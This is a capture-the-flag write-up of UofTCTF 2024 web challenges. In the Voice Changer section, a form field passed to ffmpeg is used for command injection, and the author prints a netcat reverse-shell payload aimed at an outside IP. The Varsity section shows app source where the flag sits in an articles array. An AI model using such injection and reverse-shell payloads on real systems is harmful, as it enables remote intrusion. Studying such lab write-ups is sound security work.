 ```yaml
---
layout: post
title: UofTCTF 2024 Web Challenges
author: m0z
categories: [Jeopardy]
tags: [ctf,web]
---
```


# Writeups

## web/Voice Changer
Sourceless web challenge.

Just a file upload with a pitch option. I intercepted the HTTP request and modified the pitch value.

```http
POST /upload HTTP/1.1

------WebKitFormBoundaryHis6nSAKTnz412sw
Content-Disposition: form-data; name="pitch"

randomness
------WebKitFormBoundaryHis6nSAKTnz412sw
Content-Disposition: form-data; name="input-file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryHis6nSAKTnz412sw--
```

The "randomness" value is reflected in our output from a ffmpeg command. I tried command injection and noticed shell errors were being printed.

I managed to get a reverse shell by passing `a" ||nc 54.174.18.49 3000 -e sh;` and found the flag located at `/secret.txt` location.

`uoftctf{Y0UR Pitch IS 70O H!9H}`

## web/The Varsity
We have a javascript app with source this time. We can identify that the flag is located in the article array as part of the last element:

```js
const articles = [
  {
    "title": "Pioneering the Future: UofT's Revolutionary AI Research",
    "content": "The University of Toronto continues to lead groundbreaking research in artificial intelligence, with its latest project aiming to develop algorithms that can understand emotions in text. Spearheaded by a team of international students, this initiative promises to revolutionize how machines interact with human language."
  },
  ...
  {
    title: "UofT Hosts its 2nd Inaugural Capture the Flag Event",
    content: "Your flag is: " + FLAG,
  },
];
```
